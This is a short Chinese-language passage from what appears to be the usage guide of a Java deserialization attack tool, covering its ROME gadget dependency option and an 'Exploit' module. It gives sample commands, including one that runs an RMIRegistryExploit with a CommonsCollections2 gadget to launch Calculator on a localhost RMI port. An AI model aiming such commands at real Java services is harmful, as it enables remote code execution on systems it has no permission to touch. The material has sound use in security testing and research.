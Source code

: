 ## Rome Rometools

```
-gd [rome | rometools]
```

+ `-gd` 指定 rome 的依赖包 eg. `-g ROME -cmd "open -a Calculator.app" -gd rometools`

![image-20240427155050391](attachments/image-20240427155050391.png)

# 0x06 Exploit 模块

在 gadget 增强的前面拼接 exp 使用该模块 ，`exp -show` 查看支持的 EXP

![image-20240515111004602](attachments/image-20240515111004602.png)



eg.  `exp RMIRegistryExploit -g CommonsCollections2 -cmd "open -a Calculator.app" -ehost 127.0.0.1 -eport 1099`

![image-20240515095932731](attachments/image-20240515095932731.png)
